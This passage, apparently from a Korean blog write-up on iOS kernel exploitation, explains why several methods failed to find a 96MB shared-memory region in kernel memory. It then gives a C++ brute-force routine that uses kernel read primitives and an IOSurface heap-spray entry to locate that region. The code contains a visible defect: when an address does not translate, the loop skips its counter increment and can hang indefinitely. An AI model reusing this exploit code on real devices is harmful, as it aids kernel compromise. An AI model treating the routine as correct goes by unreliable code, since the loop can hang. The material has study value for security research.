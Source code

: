 1, 2번 방법으로는 0x4000과 같은 작은 크기로 공유메모리 할당했을시에는 쉽게 찾을 수 있었지만, **96MB 같은 방대한 크기의 경우 찾지 못했다.**

3번 방법으로는 커널 주소와 유저레벨 주소 모두 서로 같은 물리주소로 향하지만, 
**가상 커널주소로 변환시 kernel map 범위에 속하지 않는다.**

**따라서 최후의 4번 방법으로, 82MB dict_entry 주소에서 어림잡아 값을 더해, 주소를 구하였다.**

```cpp
// Solution 4
// Bruteforcing...... sigh
void find_shmem_in_kernel_4(uint64_t *kva1, uint64_t *kva2, uint64_t command_buffer_shmem_sig, uint64_t segment_list_shmem_sig, uint64_t iosurface_sprayed_osdict_entry) {
	uint64_t command_buffer_shmem_data_kva = 0;
	uint64_t segment_list_shmem_data_kva = 0;

	uint64_t kernel_alloc_start_maybe = 0;
	uint64_t kernel_map = kread64(ksym(KSYMBOL_kernel_map));

	if(iosurface_sprayed_osdict_entry) {
		kernel_alloc_start_maybe = (iosurface_sprayed_osdict_entry & 0xffffffffff000000) + 0x1000000;
	}
	else {
		uint64_t kernel_map_start = kread64(kernel_map+0x20);	//0x20 = start
		kernel_alloc_start_maybe = kernel_map_start + 0x30000000;
	}
	
	int try_count = 0;
	while(1) {
		uint64_t current_kva = kernel_alloc_start_maybe + try_count * 0x1000;

		//check if valid readable kernel address to prevent kernel panic
		uint64_t current_pa = kvtophys(current_kva);
		if(current_pa == 0) continue;

		if(physread64(current_pa) == command_buffer_shmem_sig) {
			command_buffer_shmem_data_kva = current_kva-0x1000;
            *kva1 = command_buffer_shmem_data_kva;
		}

		if(physread64(current_pa) == segment_list_shmem_sig) {
			segment_list_shmem_data_kva = current_kva-0x1000;
            *kva2 = segment_list_shmem_data_kva;
		}

		if(segment_list_shmem_data_kva && command_buffer_shmem_data_kva) {
			INFO("try_count: %d\n", try_count);
			break;
		}

		if(try_count > 200000) {
			ERROR("failed to find where shmem allocated in kernel\n");
			break;
		}

		try_count++;
	}
	
...

#if ENABLE_HELPER
    //helper; find our 96MB shmem data
    uint64_t command_buffer_shmem_data_kva, segment_list_shmem_data_kva = 0;
	find_shmem_in_kernel_4(&command_buffer_shmem_data_kva, &segment_list_shmem_data_kva, command_buffer_shmem_sig, segment_list_shmem_sig, osdict_entry);
```